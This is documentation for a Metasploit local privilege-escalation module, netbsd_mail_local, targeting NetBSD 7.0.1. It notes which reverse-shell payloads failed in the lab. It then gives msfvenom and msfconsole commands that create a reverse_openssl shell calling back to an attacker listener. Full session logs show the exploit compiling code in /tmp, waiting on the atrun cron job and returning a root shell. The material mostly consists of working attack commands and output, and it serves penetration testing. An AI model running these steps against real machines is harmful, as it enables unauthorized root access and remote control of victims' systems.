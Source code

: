 ## Vulnerable Application

  NetBSD 7.0.1 is available from the [official](http://cdn.netbsd.org/pub/NetBSD/NetBSD-7.0.1/images/NetBSD-7.0.1-amd64.iso) site, or on an [unofficial git](https://github.com/h00die/MSF-Testing-Scripts/blob/master/NetBSD-7.0.1-amd64.iso) 

## Issues
Getting an initial shell that can write files correctly was difficult.  The best I found was reverse_openssl.

Payloads that didn't work:
* cmd/unix/reverse - connected back, but couldn't write file.
```
[*] Started reverse TCP double handler on 172.16.152.1:4444 
[*] Writing Payload to /tmp/zrWqhXpL
[*] Max line length is 131073
[*] /usr/bin/printf '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] printf '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] /usr/bin/printf %b '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] printf %b '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] perl -e 'print("\0\377\376\101\102\103\104\177\45\45\15\12")' Failed: "perl: not found\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] gawk 'BEGIN {ORS="";print "\x00\xff\xfe\x41\x42\x43\x44\x7f\x25\x25\x0d\x0a"}' </dev/null Failed: "gawk: not found\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] echo '00fffe414243447f25250d0a'|xxd -p -r Failed: "xxd: not found\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] echo -ne '\x00\xff\xfe\x41\x42\x43\x44\x7f\x25\x25\x0d\x0a' Failed: "-ne \\x00\\xff\\xfe\\x41\\x42\\x43\\x44\\x7f\\x25\\x25\\x0d\\x0a\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[-] Exploit failed: RuntimeError Can't find command on the victim for writing binary data
[*] Exploit completed, but no session was created.
```
* cmd/unix/reverse_awk - `awk: syntax error at source line 1`
* cmd/unix/reverse_bash - `./bsd.payload: 1: Syntax error: Bad fd number`
* cmd/unix/reverse_bash_telnet_ssl - `$ telnet: unknown option -- z`
* cmd/unix/reverse_ssl_double_telnet - `$ telnet: unknown option -- z`
* cmd/unix/reverse_lua - `lua: (command line):1: module 'socket' not found`
* netcat, node, perl, php, python, php, ruby, zsh - all not installed by default
* bsd/* didn't seem to work either, maybe its for freebsd?

Payloads that did work:
* cmd/unix/reverse_openssl

## Verification Steps

  1. Start msfconsole
  2. Get an initial shell
    1. Create working shell, scp it over
```
./msfvenom -p cmd/unix/reverse_openssl lhost=172.16.152.1 -f raw -o /tmp/bsd.payload
scp /tmp/bsd.payload user@172.16.152.128:/tmp/
```
    2. Setup msf to handle
```
use exploit/multi/handler
set payload cmd/unix/reverse_openssl
set lhost 172.16.152.1
exploit
```
    3. Run the shell from NetBSD
```
$ cd /tmp
$ ls
bsd.payload
$ chmod +x bsd.payload 
$ ./bsd.payload 
$ WARNING: can't open config file: /etc/openssl/openssl.cnf
depth=0 CN = vgekg
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = vgekg
verify return:1
```
    4. Receive the shell and background it
```
[*] Started reverse double SSL handler on 172.16.152.1:4444 
[*] Starting the payload handler...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NwNHAEiJioYIvn4M;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "NwNHAEiJioYIvn4M\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.152.1:4444 -> 172.16.152.128:65534) at 2016-08-25 19:58:39 -0400
^Z
Background session 1? [y/N]  y
```
  3. Do: `use exploit/unix/local/netbsd_mail_local`
  4. Do: `set payload cmd/unix/reverse_openssl`
  5. Do: `set lhost 172.16.152.1`
  6. Do: `set verbose true`
  7. Do: `set session 1`
  8. Do: `exploit`
  9. You should get a *root* shell.

## Options

### ATRUNPATH
  File location of atrun, defaults to `/usr/libexec/atrun`
  
### MAILDIR
  Location of mail folder, defaults to `/var/mail`
  
### WritableDir
  Location of a writable directory for our payload, defaults to `/tmp`
  
### ListenerTimeout
  Since this exploit utilized a cron which has a 10min timer, the listener timeout needs to be 10min + padding.  Defaults to `603` seconds (10min, 3sec)

## Scenarios

  Here is a run against a virgin install of `NetBSD  7.0.1 NetBSD 7.0.1 (GENERIC.201605221355Z) amd64` (from the unofficial link at the top)
  
  In this example, I got lucky and only had to wait ~1min for the cron to hit, which is every 10min by default

  1. Get an initial shell
    1. Create working shell, scp it over
```
./msfvenom -p cmd/unix/reverse_openssl lhost=172.16.152.1 -f raw -o /tmp/bsd.payload
scp /tmp/bsd.payload user@172.16.152.128:/tmp/
```
    2. Setup msf to handle
```
use exploit/multi/handler
set payload cmd/unix/reverse_openssl
set lhost 172.16.152.1
exploit
```
    3. Run the shell from NetBSD
```
$ cd /tmp
$ ls
bsd.payload
$ chmod +x bsd.payload 
$ ./bsd.payload 
$ WARNING: can't open config file: /etc/openssl/openssl.cnf
depth=0 CN = vgekg
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = vgekg
verify return:1
```
    4. Receive the shell and background it
```
[*] Started reverse double SSL handler on 172.16.152.1:4444 
[*] Starting the payload handler...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NwNHAEiJioYIvn4M;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "NwNHAEiJioYIvn4M\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.152.1:4444 -> 172.16.152.128:65534) at 2016-08-25 19:58:39 -0400
^Z
Background session 1? [y/N]  y
```
  2. Run the exploit
```
msf exploit(netbsd_mail_local) > set payload cmd/unix/reverse_openssl
payload => cmd/unix/reverse_openssl
msf exploit(netbsd_mail_local) > set lhost 172.16.152.1
lhost => 172.16.152.1
msf exploit(netbsd_mail_local) > set verbose true
verbose => true
msf exploit(netbsd_mail_local) > set session 1
session => 1
msf exploit(netbsd_mail_local) > exploit
[*] Started reverse double SSL handler on 172.16.152.1:4444 
[*] Writing Payload to /tmp/pjDkvmGg
[*] Max line length is 131073
[*] Writing 176 bytes in 1 chunks of 618 bytes (octal-encoded), using printf
[*] Writing exploit to /tmp/GHIKGOWX.c
[*] Max line length is 131073
[*] Writing 4898 bytes in 1 chunks of 17162 bytes (octal-encoded), using printf
[*] Compiling /tmp/GHIKGOWX.c via gcc
[*] Starting the payload handler...
[*] Executing at 2016-08-25 19:59:04 -0400.  May take up to 10min for callback
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo X6C4UIDx4zmwM0DJ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "X6C4UIDx4zmwM0DJ\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (172.16.152.1:4444 -> 172.16.152.128:65532) at 2016-08-25 20:00:02 -0400
[*] 2016-08-25 20:00:02 -0400
[*] Remember to run: chown root:wheel /usr/libexec/atrun
[+] Deleted /tmp/pjDkvmGg
[!] This exploit may require manual cleanup of '/tmp/pjDkvmGg' on the target
[!] This exploit may require manual cleanup of '/tmp/GHIKGOWX' on the target
[!] This exploit may require manual cleanup of '/tmp/GHIKGOWX.out' on the target
1633029467
TkBWZEPqsRvYvmwNaTcjImhcSzZHOAtY
true
JUqfyioWthnpvyxRJAZosSGQjnLHqPUB
sHXbQbHqFIbnZGoFWlZoppGprWyKwFCr
nDpSrEmQhDuVSxIpILWCOABbMOIAWUTx
whoami
root
```
